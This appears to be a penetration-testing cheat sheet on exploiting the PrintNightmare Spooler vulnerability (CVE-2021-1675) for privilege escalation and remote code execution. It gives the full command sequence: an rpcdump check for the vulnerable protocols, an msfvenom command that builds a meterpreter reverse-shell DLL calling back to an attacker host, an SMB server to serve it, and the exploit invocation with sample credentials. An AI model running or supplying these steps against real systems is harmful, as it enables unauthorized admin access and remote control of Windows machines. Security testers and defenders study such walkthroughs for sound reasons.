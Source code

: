 # Print Nightmare (CVE-2021-1675)

**Requirements: **<mark style="color:green;">**User**</mark>

## Intro

This is a **privilege escalation vulnerability and RCE (Remote Command Execution)** that takes advantage of a service called **Spooler** to get administrative privileges. Since **spooler** runs as **admin** once exploited, **we get admin privileges**. We can do it remotely too, using **impacket** and other useful tools.

* Use: [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)

### Requirements

* Have **access as a user** on the machine.

### Execution

```
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

* If we see this as is shown here, then is vulnerable.

### Creating a malicious .dll

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<port> -f dll > malicious.dll
```

Now start listening with a meterpreter session.

### Start an SMB Server

```bash
smbserver.py share `pwd` -smb2support
```

### Using the exploit

```bash
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
```
